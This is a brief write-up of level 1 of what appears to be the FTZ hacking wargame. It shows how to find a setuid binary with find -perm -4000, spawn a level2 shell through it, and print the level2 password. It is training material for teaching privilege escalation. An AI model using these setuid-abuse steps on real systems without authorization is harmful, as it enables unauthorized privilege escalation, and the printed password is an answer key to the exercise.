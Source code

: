 # Level1

This level's goal:

- SetUID

***

`[level1@ftz level1]$ ls -l`  
total 12  
-rw-r--r--    1 root     root           47 Apr  4  2000 hint  
drwxr-xr-x    2 root     level1       4096 Dec  7  2003 public_html  
drwxrwxr-x    2 root     level1       4096 Jun  3 11:58 tmp  

`[level1@ftz level1]$ cat hint`  
Level2 권한에 setuid가 걸린 파일을 찾는다.

`[level1@ftz level1]$ find / -user level2 -perm -4000 2>/dev/null`  
/bin/ExecuteMe

`[level1@ftz level1]$ ls -l /bin/ExecuteMe`  
-rwsr-x---    1 level2   level1      12868 Aug 19  2014 /bin/ExecuteMe

`[level1@ftz level1]$ /bin/ExecuteMe`

`[level2@ftz level2]$ bash`

`[level2@ftz level2]$ my-pass`  
Level2 Password is "hacker or cracker".

